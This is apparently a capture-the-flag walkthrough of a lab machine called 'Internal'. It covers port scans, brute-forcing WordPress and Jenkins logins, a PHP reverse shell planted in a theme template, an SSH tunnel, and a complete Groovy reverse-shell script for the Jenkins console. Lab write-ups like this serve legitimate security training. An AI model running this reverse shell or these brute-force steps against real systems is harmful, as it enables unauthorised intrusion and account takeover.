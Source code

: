 ```
Name: Internal
```

```
IP address: 10.10.87.17
```

```
Task 1: I understand the scope of work
```

```
Task 2: User.txt Flag
```
1. Lets add a new entry in the hosts file as mentioned in the *Briefing*.
2. Lets run a masscan on the machine and look for open ports `masscan -p1-65535 10.10.87.17 -e tun0`
3. As we can see the port *80* is open lets navigate to *http://internal.thm/* we see a Apache default page.
```
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2022-01-02 17:13:14 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 80/tcp on 10.10.87.17                                     
Discovered open port 22/tcp on 10.10.87.17  
```
4. Lets run nmap scan to enumerate the ports and get the services being run on them. `nmap 10.10.87.17 -sC -sV -O -oA internal -p80,22`
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 3.1 - 3.2 (92%), Linux 3.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.92 seconds
```
5. Let run ffuf to check the accessible directories `ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://internal.thm/FUZZ -mc 200,302,405,301 -o relevant.txt --rate 1000`
6. We find two intersting entries */blog* and */wordpress* which indicates that we are facing a wordpress application.
7. Navigating to *http://internal.thm/blog/* we can see there are few basic blogs and navigating to *http://internal.thm/blog/wp-login.php* try *admin:admin* giving us an error saying *Invalid password* so we can confirm we have an *admin* user.
8. Lets use wpscan to enumarate vulnerable plugin and users of the wordpress, we also detect the theme being used by wordpress *http://internal.thm/blog/wp-content/themes/twentyseventeen/* we can use this to upload reverse shell in case can crak the admin password.
9. we do not detect any particular interseting vulnerable plugin so lets use password attack on the *admin* user using the wpscan tool `wpscan --url http://internal.thm/blog --passwords /usr/share/wordlists/rockyou.txt --usernames admin`
10. We were able to crak the password for **admin** user and it is **admin:my2boys** we can now login with the credentials.
11. After logining we find a private post wich carries credentials for **will** `william:arnold147` wordpress does not have any such user so tried **ssh** but failed so they seem to either dummy or can be used in latter attack.
12. We will be editing any current theme page such as **404 template** and try to take reverse shell we will be using php-reverse shell by pentestmonkey.
13. Once we have a successful reverse connection we can see we are www-data user and we will use linepease to further investigate exploits to esclate the priveleges.
14. We do not find much using linpeas but we find an interesting entry under **/opt** a file called **wp-save.txt** which carries a set of credentials for user **aubreanna:bubb13guM!@#123** there is no such wordpress user but there is a user on the machine so we can **ssh** using this credentials.
15. As we **ssh** on to the machine using the credentials of **aubreanna** we get to see user.txt using ls command we then cat the file using `cat user.txt` and get the user flag.

```
Task 3: Root.txt Flag
``` 
1. Under the same directory we also find a file called **jenkins.txt** which indicates a jenkins is running on the machine we cat it and it has following details.
```
Internal Jenkins service is running on 172.17.0.2:8080
```
2. So on doing a ifconfig we came to know that docker is being used and its IP address is `172.17.0.1` and jenkins is hosted on `172.17.0.2` port `8080` so we will have to tunnel to that IP address through ssh using the **aubreanna** user.
3. So lets SSH on the box again and this time lets create a tunnel via SSH so that we can access the Jenkins implementation `ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.132.54`.
4. No using a browser navigate to `http://localhost:8080` and thanks to SSH tunneling we can access the Jenkins server.
5. Lets try to enumerate password for the `admin` user we will use BurpSuite community edition for that.
6. We are able to crack the password `admin:spongebob`.
7. Now we have to take a reverse connection using the Jenkins script console. We will be using `https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76` to get a reverse connection.
8. Now we have access of the user `will` but we still are not root.
9. Lets enumerate the box manually first and as expected we got another note under **/opt** folder.
10. The note file contains password for the root user `root:tr0ub13guM!@#123`.
11. Finally lets SSH into the the box and get the root flag.


**Note:Groovy Shell for Reverse connection from Jenkins**
```
String host="IP-Address";
int port=9002;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
